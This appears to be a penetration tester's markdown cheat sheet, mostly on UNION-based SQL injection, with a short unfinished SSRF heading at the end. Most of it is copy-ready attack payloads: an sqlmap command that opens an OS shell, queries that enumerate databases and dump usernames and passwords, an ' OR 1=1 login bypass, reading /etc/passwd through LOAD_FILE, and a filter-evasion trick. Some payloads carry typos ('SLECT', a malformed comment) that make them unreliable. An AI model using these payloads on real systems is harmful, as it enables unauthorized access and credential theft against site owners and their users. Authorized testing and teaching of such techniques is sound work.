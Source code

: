 `sqlmap -r req.txt --os-shell`

### UNION BASED SQLI
https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635

get column number

`'UNION SLECT 1,2,3.. -- -` until it does not error out

enumerate data types

`'UNION SELECT 1,"a",3 -- -`

then in that column we can inject statements

get tables

`'UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'-- -`

example of table dump
`UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users-- -`

enumerate db names

`UNION SELECT 1,2,db_name() FROM staff_users-- -`
`UNION SELECT 1,2,db_name(1) FROM staff_users-- -`
`UNION SELECT 1,2,db_name(2) FROM staff_users-- -`
...

list databases from information_schema

`' AND 1=2 UNION SELECT 1,group_concat(schema_name),3 FROM information_schema.SCHEMATA-- -`

get number of columns

`ORDER BY 1-- -`
`ORDER BY 2-- -`
...

bypass login

`' OR 1=1-- -` 

load file

`LOAD_FILE("/etc/passwd")`

**BYPASS SPACE FILTERING**

`'/**/union/**/select/**1,2--/**/-`

for blind and boolean sql injection try to use sqlmap or write a custom script


## SSRF 

check filtered ports maybe we can access them with a found ssrf

SSRF REDIRECT
